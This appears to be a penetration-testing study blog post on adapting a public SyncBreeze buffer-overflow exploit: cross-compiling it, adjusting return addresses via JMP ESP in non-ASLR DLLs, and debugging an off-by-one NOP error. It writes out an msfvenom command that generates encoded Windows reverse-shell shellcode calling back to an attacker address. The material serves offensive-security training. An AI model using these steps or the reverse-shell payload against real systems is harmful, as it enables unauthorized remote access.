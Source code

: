 ```yaml
---
layout: post
title: Examining Exploit Code
titledate: 09/08/23
tags: ["infosec","offsec", "exploit", "c"]
---
```


#### compiling c on linux

    $ sudo apt install mingw-w64
    i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe

when compiling we may run into missing header information 

    $ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

#### ip and port

the target or source ip address and port numbers may be hardcoded

#### chaning return address

  we may need to change the return address of the exploit depending on our target environment and what dlls are available to it

  there are a few methods to achieve this

  1. if possible recreate the target environment locally and use a debugger to determine this address - File > Attach to process > View > Executable modules and see what  dll modules are present
  2. search for public exploits with a similar setup - like a return address for a JMP ESP on win 10
  3. search for non-ASLR marked dlls

### Note: If we have access to the machine we can copy the DLLs we want to utilize over for priv escalation

#### shellcode 

since this is a static exploit - we will most likely need to regenerate shellcode for our specific use case / target environment
for example if we want a reverse shell for an x86 platform system with no bad characters we can use

    $ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"

#### debugging our exploit

after recompiling our exploit we can open our debugger with the application running press ctr+G and follow the JMP ESP address at our return address 0x10090c83, then we can set a breakpoint with F2 and then continue execution by pressing F9


![immun_1.png](../images/exploitation/immun_1.png)

#### execute exploit with wine

because we are running an executable we can use wine to run the exploit

    sudo wine syncbreeze_exploit.exe

  When we run the exploit we did not hit our breakpoint but instead hit a crash with the value of the EIP register pointing to 0x9010090c

#### fixing the code

the eip address has an extra 90 or nop in it so we are off 1 byte and need to remove a nop from the shellcode